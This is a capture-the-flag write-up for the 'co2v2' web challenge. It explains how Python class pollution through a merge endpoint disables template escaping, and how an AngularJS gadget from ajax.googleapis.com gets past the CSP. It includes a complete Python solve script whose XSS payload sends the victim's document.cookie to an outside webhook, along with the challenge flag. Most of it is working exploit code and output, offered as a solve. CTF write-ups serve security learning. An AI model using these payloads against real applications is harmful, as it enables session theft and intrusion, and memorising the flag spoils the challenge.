 ```yaml
---
created: 2024-07-06T16:35
updated: 2024-07-07T21:48
title: co2v2
solves: 59
points: 222
description: '"Payload primed, initiate deployment."'
---
```


## Analysis

### `/admin/update-accepted-templates`
This route changes the environment, if we can change the value of `TEMPLATES_ESCAPE_ALL` to `False`, we will disable XSS protection.

### `/save_feedback`
This route uses a fancy merge function that after verification, is indeed vulnerable to "prototype" pollution.

### `script-src 'self' 'nonce-{nonce}' https://ajax.googleapis.com;`
The CSP rule can be bypassed by using libraries from `https://ajax.googleapis.com`, such as the infamous angular xss method.

## "Prototype" Pollution

We are essentially changing values on global by hijacking the merge command to do our bidding.

```json
{
    "__class__": {
        "__init__": {
            "__globals__": {
                "TEMPLATES_ESCAPE_ALL": false,
                "os":{"environ":{"APP_URL":"hijacked"}}
            }
        }
    }
}
```

## Attack Flow

1. Sign up & sign in
2. `/create_post` XSS payload note (angular + prototype)
3. `/save_feedback` with pollution payload to change value of `TEMPLATES_ESCAPE_ALL` to false.
4. `/admin/update-accepted-templates` Ask server to update policy (it will use the new value of `TEMPLATES_ESCAPE_ALL=False`)
5. `/api/v1/report` (no modification to default environ needed)
6. Check webhook

## Solve Script

```python
import requests
import random
import string

webhook = "https://webhook.site"
target = "https://web-co2v2-f4243a8e077ecefb.2024.ductf.dev"
session = requests.Session()


def generate_random_string(length):
    letters = string.ascii_letters
    return ''.join(random.choice(letters) for _ in range(length))


def regAndLogin():

    username = generate_random_string(6)
    password = generate_random_string(6)

    data = session.post(f'{target}/register', data={
        "username": username,
        "password": password
    })
    if data.status_code != 200:
        print("failed to register", data.status_code)
        exit(1)
    data = session.post(f'{target}/login', data={
        "username": username,
        "password": password
    })
    if data.status_code != 200:
        print("failed to login", data.status_code)
        exit(1)
    print("logged in")


def createPost():
    data = session.post(f'{target}/create_post', data={
        "title": f"""
<script src=https://ajax.googleapis.com/ajax/libs/angularjs/1.0.1/angular.js></script>
<script src=https://ajax.googleapis.com/ajax/libs/prototype/1.7.2.0/prototype.js></script>
<body class="ng-app" ng-csp>
{{{{$on.curry.call().fetch("{webhook}?"+$on.curry.call().document.cookie.toString(),{{mode:"no-cors"}})}}}}
</body>
        """,
        "content": """script loader""",
        "public": 1
    })
    if data.status_code != 200:
        print("failed to create post", data.status_code, data.text)
        exit(1)
    print("payload created")


def polluteRemote():
    data = session.post(f'{target}/save_feedback', json={
        "__class__": {
            "__init__": {
                "__globals__": {
                    "TEMPLATES_ESCAPE_ALL": False,
                    # "os": {"environ": {"APP_URL": url}} # yes i can change environ
                }
            }
        }
    })
    print("pollution complete", data.text)


def disableProtection():
    data = session.post(f'{target}/admin/update-accepted-templates', json={
        'policy': 'strict'
    })
    print("protection disabled", data.text)


def activatePayload():
    data = session.get(f'{target}/api/v1/report')
    print("payload activated", data.text)


regAndLogin()
createPost()
polluteRemote()  # "http://co2v2:1337")
disableProtection()
activatePayload()

# logged in
# payload created
# pollution complete {"success":"true"}
# protection disabled {"success":"true"}
# payload activated {"status":202}
```

```
DUCTF{_1_d3cid3_wh4ts_esc4p3d_}
```
